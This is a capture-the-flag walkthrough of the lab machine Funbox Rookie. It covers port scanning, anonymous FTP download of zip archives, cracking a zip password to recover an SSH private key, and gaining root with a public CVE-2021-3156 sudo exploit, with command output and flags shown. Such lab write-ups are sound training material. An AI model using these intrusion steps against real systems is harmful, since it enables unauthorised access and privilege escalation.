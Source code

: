 ```yaml
---
title: Funbox Rookie
categories: [Proving Grounds Play, Funbox]
tags: [FTP, Public Exploit, Unzip, PrivEsc]
image:
  path: https://miro.medium.com/v2/resize:fit:512/1*hN7YDho1p8S7uOdLjj-8Mw.png
  alt:  Funbox-Rookie Machine 🖥️
---
```



## **Description ⤵️**

>
💡 [Funbox : Rookie](https://www.vulnhub.com/entry/funbox-rookie,520/)
<br>
Boot2Root ! This can be a real life scenario if rockies becomes admins. Easy going in round about 15 mins. Bit more, if you are find and stuck in the rabbit-hole first.
<br>
This VM is created/tested with Virtualbox. Maybe it works with vmware.
<br>
If you need hints, call me on twitter: @0815R2d2
<br>
Have fun...
<br>
This works better with VirtualBox rather than VMware.
{: .prompt-info }


### Let’s find the IP Address first >>

```bash
IP : 192.168.225.107
```
{: .nolineno}

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Funbox-Rookie]
└─$ sudo nmap -sC -sV -T4 -oN Nmap_results.txt 192.168.225.107
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-08 15:37 IST
Nmap scan report for 192.168.225.107
Host is up (0.17s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5e
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 anna.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 ariel.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 bud.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 cathrine.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 homer.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 jessica.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 john.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 marge.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 miriam.zip
| -r--r--r--   1 ftp      ftp          1477 Jul 25  2020 tom.zip
| -rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 zlatan.zip
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f9:46:7d:fe:0c:4d:a9:7e:2d:77:74:0f:a2:51:72:51 (RSA)
|   256 15:00:46:67:80:9b:40:12:3a:0c:66:07:db:1d:18:47 (ECDSA)
|_  256 75:ba:66:95:bb:0f:16:de:7e:7e:a1:7b:27:3b:b0:58 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/logs/
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

---

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Funbox-Rookie/Untitled.png)

Lets check `robots.txt` file →

![Untitled](/Vulnhub-Files/img/Funbox-Rookie/Untitled%201.png)

## FTP Enumeration ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Funbox-Rookie]
└─$ ftp 192.168.225.107 21
Connected to 192.168.225.107.
220 ProFTPD 1.3.5e Server (Debian) [::ffff:192.168.225.107]
Name (192.168.225.107:kali): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230-Welcome, archive user anonymous@192.168.45.178 !
230-
230-The local time is: Sat Jul 08 10:10:10 2023
230-
230-This is an experimental FTP server.  If you have any unusual problems,
230-please report them via e-mail to <root@funbox2>.
230-
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
229 Entering Extended Passive Mode (|||7526|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   2 ftp      ftp          4096 Jul 25  2020 .
drwxr-xr-x   2 ftp      ftp          4096 Jul 25  2020 ..
-rw-r--r--   1 ftp      ftp           153 Jul 25  2020 .@admins
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 anna.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 ariel.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 bud.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 cathrine.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 homer.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 jessica.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 john.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 marge.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 miriam.zip
-r--r--r--   1 ftp      ftp          1477 Jul 25  2020 tom.zip
-rw-r--r--   1 ftp      ftp           114 Jul 25  2020 .@users
-rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 zlatan.zip
226 Transfer complete
ftp>
```
{: .nolineno}

Now I downloaded all the files into the attackers machine →

```bash
wget -r ftp://192.168.225.107
```
{: .nolineno}

Now lets dig into the files →

with the help of fcrackzip tool I cracked the zip passwords →

![Untitled](/Vulnhub-Files/img/Funbox-Rookie/Untitled%202.png)

```bash
PASSWORD FOUND!!!!: pw == iubire
```
{: .nolineno}

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Funbox-Rookie/192.168.225.107]
└─$ unzip tom.zip 
Archive:  tom.zip
[tom.zip] id_rsa password: 
  inflating: id_rsa
```
{: .nolineno}

## SHELL ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Funbox-Rookie/192.168.225.107]
└─$ ssh tom@192.168.225.107 -i id_rsa 
The authenticity of host '192.168.225.107 (192.168.225.107)' cant be established.
ED25519 key fingerprint is SHA256:ZBER3N78DusT56jsi/IGcAxcCB2W5CZWUJTbc3K4bZc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.225.107' (ED25519) to the list of known hosts.
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-117-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jul  8 10:45:19 UTC 2023

  System load:  0.0               Processes:             164
  Usage of /:   75.8% of 4.37GB   Users logged in:       0
  Memory usage: 38%               IP address for ens256: 192.168.225.107
  Swap usage:   0%

30 packages can be updated.
0 updates are security updates.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

tom@funbox2:~$
tom@funbox2:~$ cat local.txt
866bc12b3cc3f88f2bcfb8d091713b46
tom@funbox2:~$
```
{: .nolineno}

Now lets see the Sudo version →

```bash
tom@funbox2:~$ sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
tom@funbox2:~$
```
{: .nolineno}

Lets search an exploit for this Sudo version →

I got this exploit of [**CVE-2021-3156 (Sudo Baron Samedit)**](https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py) and I used `exploit_nss.py` exploit **→**

```bash
tom@funbox2:/tmp$ nano exp.py
tom@funbox2:/tmp$ chmod +x exp.py
tom@funbox2:/tmp$ python3 exp.py
# whoami
root
# /bin/bash -i
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@funbox2:/tmp# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(tom)
root@funbox2:/tmp# whoami
root
root@funbox2:/tmp# cd /root
root@funbox2:/root# ls -al
total 32
drwx------  4 root root 4096 Jul  9 09:51 .
drwxr-xr-x 24 root root 4096 Oct 14  2020 ..
-rw-------  1 root root    0 Oct 14  2020 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  3 root root 4096 Sep 15  2020 .gnupg
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Jul 25  2020 .ssh
-rw-r--r--  1 root root   32 Oct 14  2020 flag.txt
-rw-------  1 root root   33 Jul  9 09:51 proof.txt
root@funbox2:/root# cat flag.txt 
Your flag is in another file...
root@funbox2:/root# cat proof.txt
7ca58542dc8a0d0181aaf812ae214c69
root@funbox2:/root#
```
{: .nolineno}

Now I am root !!